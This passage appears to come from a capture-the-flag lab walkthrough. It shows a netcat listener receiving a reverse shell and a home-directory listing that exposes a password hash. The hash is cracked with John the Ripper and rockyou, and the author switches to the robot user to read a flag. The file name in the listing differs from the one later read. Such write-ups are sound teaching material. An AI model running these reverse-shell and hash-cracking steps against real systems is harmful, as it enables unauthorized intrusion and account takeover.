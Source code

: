 ```
$ nc -lvnp <port>

Listening on 0.0.0.0 <port>
Connection received on <ip-address> 47007
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:20:04 up 43 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
$ whoami
daemon
```

We have a reverse shell!

# 4. Privilege Escalation

Let's take a look around. First, I'll check out the `/home` directory to see what other users are on this machine. There is a home directory for `robot` that we have read access to!

```
$ ls -la /home/robot/

total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

We found the second flag, but we can't read it yet. The file `password.raw-md5` contains a password hash for user `robot`, let's see if we can crack the hash using John the Ripper.

```
$ echo "<redacted-hash-for-robot>" > hash
$ john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5         
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
<redacted> (?)     
1g 0:00:00:00 DONE (2024-01-26 11:30) 10.00g/s 407040p/s 407040c/s 407040C/s bonjour1..teletubbies
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

We got it! Now we can switch users to `robot` and get the second key.

```
daemon@linux:/home/robot$ su robot
Password: <redacted>

robot@linux:~$ whoami
robot
robot@linux:~$ cat /home/robot/flag-2-of-3.txt
<redacted>
```
